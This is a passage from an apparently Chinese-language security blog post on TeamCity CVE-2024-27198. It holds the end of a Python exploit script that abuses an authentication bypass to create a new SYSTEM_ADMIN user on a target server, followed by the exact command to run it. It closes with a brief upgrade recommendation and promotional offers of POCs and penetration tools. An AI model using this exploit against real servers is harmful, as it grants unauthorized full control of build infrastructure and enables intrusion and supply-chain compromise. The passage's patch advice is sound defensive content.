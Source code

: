 ```
        print("[+] Server vulnerable, returning HTTP", http_code) # HTTP 200 Status code is needed to confirm if the TeamCity Server is vulnerable to the auth bypass vuln
        create_user = {
            "username": args.username,
            "password": args.password,
            "email": f"{args.username}@mydomain.com",
            "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}, # Given admin permissions to your new user, basically you can have complete control of this TeamCity Server
        }
        headers = {"Content-Type": "application/json"}
        create_user = requests.post(args.target+vulnerable_endpoint, json=create_user, headers=headers, verify=False) # POST request to create the new user with admin privileges
        if create_user.status_code == 200:
            print("[+] New user", args.username, "created succesfully! Go to", args.target+"/login.html to login with your new credentials :)")
        else:
            print("[-] Error while creating new user")

    else:
        print("[-] Probable not vulnerable, returning HTTP", http_code) 

check_version()
exploit()

```  
  
复制代码到  
CVE-  
2024  
-  
27198  
.py文件，然后执行创建账号。-t指定目标，-u指定用户名，-p指定密码  
```
python CVE-2024-27198.py -t http://localhost:8111 -u mynewadminuser -p mypassword
```  
  
  
09  
  
—  
  
修复建议  
  
  
升级到2023.11.4及以上版本。  
  
  
10  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  

